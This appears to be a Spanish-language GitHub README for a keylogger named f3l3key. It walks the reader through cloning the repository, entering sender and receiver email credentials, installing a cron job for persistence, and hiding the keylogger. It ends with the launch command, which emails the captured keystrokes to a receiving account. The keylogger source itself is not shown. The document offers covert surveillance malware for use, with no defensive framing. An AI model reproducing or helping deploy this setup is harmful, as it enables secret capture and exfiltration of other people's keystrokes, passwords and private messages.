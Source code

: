 # f3l3key
##############################################################################################<br><br>
En este repositorio podrás descargar un KEYLOGGER y ponerlo en funcionamiento. Con este podrás generar un archivo con todas las pulsaciones del teclado y enviarlo por correo electrónico.<br><br>
[![keylogger.jpg](https://i.postimg.cc/rwDvqpcB/keylogger.jpg)](https://postimg.cc/LJMyT2JD)
<br><br>
PASOS A SEGUIR<br><br>
1- Sitúate en una terminal de Ubuntu y aplica la siguiente comanda: git clone https://github.com/f3l3p1n0/f3l3key.git<br>
2- Abre el archivo tester.sh y cambia: la ruta, correo emisor, la clave del emisor y el correo receptor. Para seguir con mayor detalle estos pasos
diríjete a este artículo: https://f3l3p1n0.github.io/posts/f3l3key/post.html<br>
3- Una vez editado el archivo, guárdalo y dale permisos de ejecución a los 3 archivos.<br>
4- Ejecuta el archivo installer.sh<br>
5- Cuando se detenga en el apartado de crontab, presiona 1 y la tecla enter.<br>
6- Guarda el archivo y habrás creada la nueva tarea Cron.<br>
7- Listo, ahora debes esperar los minutos correspondientes para recibir en tu cuenta receptora los correos.<br><br>

pd: Es recomendable que el keylogger se ubique en una posición oculta. Ten en cuenta que debes especificar la ruta donde se encuentra el keylogger, de lo contrario no funcionará. De igual manera, debes respetar la siguiente linea con los mismos espacios y estructura:

<p>python3 /home/user/Descargas/f3l3key.py emisor@gmail.com pega_la_clave_aqui receptor@hotmail.com &</p>

